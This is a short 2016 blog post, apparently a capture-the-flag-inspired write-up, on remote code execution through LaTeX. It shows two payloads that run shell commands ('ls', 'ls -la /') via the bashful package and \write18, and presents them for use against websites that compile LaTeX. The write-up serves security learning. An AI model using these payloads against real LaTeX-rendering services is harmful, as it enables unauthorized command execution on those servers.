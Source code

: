 ```yaml
---
layout:     post
title:      "Latex Vulnerability"
subtitle:   "Remote code execution"
date:       2016-02-25 21:00:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Based on web90 problem in Internetwache, I going discuss the latex vulnerability. Usually in websites using latex, you can easily get 
an remote code execution. I would list all the payload which may lead you to an rce.</p>

<p>You may get an rce, but somemay may be sandboxed, so you can term it as bug</p>

<p>Payload 1</p>

<blockquote>
\documentclass{article}<br>
\usepackage[a6paper]{geometry}<br>
\usepackage{bashful}<br>
<br>
\begin{document}<br>
\bash[script,stdout]<br>
ls <br>
\END<br>
\end{document}<br>
</blockquote>

<p>Payload 2</p>

<blockquote>\immediate\write18{ls -la / }</blockquote>

<p><a href="http://tex.stackexchange.com/questions/16790/write18-capturing-shell-script-output-as-command-variable">Link</a></p>

<p>Thank you for reading the blog! </p>
